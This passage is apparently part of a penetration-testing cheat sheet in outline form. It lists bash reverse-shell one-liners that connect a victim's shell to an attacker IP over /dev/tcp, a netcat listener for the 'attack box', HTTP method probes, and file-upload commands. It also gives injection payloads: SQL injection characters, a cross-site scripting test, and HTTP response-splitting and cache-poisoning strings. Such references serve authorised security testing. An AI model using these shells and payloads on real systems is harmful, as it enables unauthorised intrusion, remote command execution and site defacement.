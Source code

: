                 - Victim:` $ exec 5<>/dev/tcp/IP_Address/Port`
                - Victim: `$ cat <&5 | while read line; do $line 2>&5 >&5; done`
            - Neohapsis
                - Atttack Box: nc -l -p Port -vvv
                - Victim: `$ exec 0</dev/tcp/IP_Address/Port` # First we copy our connection over stdin
                - Victim: `$ exec 1>&0` # Next we copy stdin to stdout
                - Victim: `$ exec 2>&0` # And finally stdin to stderr
                - Victim: `$ exec /bin/sh 0</dev/tcp/IP_Address/Port 1>&0 2>&0`
    - Method Testing
        - `nc IP_Adress Port`
            - `HEAD / HTTP/1.0`
            - `OPTIONS / HTTP/1.0`
            - `PROPFIND / HTTP/1.0`
            - `TRACE / HTTP/1.1`
            - `PUT http://Target_URL/FILE_NAME`
            - `POST http://Target_URL/FILE_NAME HTTP/1.x`
    - Upload Files
        - `curl`
            - `curl -u <username:password> -T file_to_upload <Target_URL>`
            - `curl -A "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" <Target_URL>`
        - `put.pl`
            - `put.pl -h target -r /remote_file_name -f local_file_name`
        - webdav
            - `cadaver`
    - View Page Source
        - Hidden Values
        - Developer Remarks
        - Extraneous Code
        - Passwords!
    - Input Validation Checks
        - NULL or null
            - Possible error messages returned.
        - `' , " , ; , <!`
            - Breaks an SQL string or query; used for SQL, XPath and XML Injection tests.
        - `– , = , + , "`
            - Used to craft SQL Injection queries.
        - `‘ , &, ! , ¦ , < , >`
            - Used to find command execution vulnerabilities.
        -` "><script>alert(1)</script>`
            - Basic Cross-Site Scripting Checks.
        - `%0d%0a`
            - Carriage Return (%0d) Line Feed (%0a)
                - HTTP Splitting
                        - `language=?foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a<html>Insert undesireable content here</html>`
                            - i.e. `Content-Length= 0 HTTP/1.1 200 OK Content-Type=text/html Content-Length=47<html>blah</html>`
                - Cache Poisoning
                        `- language=?foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20304%20Not%20Modified%0d%0aContent-Type:%20text/html%0d%0aLast-Modified:%20Mon,%2027%20Oct%202003%2014:50:18%20GMT%0d%0aContent-Length:%2047%0d%0a%0d%0a<html>Insert undesireable content here</html>`
        - `%7f` , `%ff`
            - byte-length overflows; maximum 7- and 8-bit values.
        - `-1`, `other`
            - Integer and underflow vulnerabilities.
        - `%n` , `%x` , `%s`
            - Testing for format string vulnerabilities.
        - `../`
            - Directory Traversal Vulnerabilities.
        - `%` , `_`, `*`
            - Wildcard characters can sometimes present DoS issues or information disclosure.
        - `Ax1024+`
            - Overflow vulnerabilities.
    - Automated table and column iteration
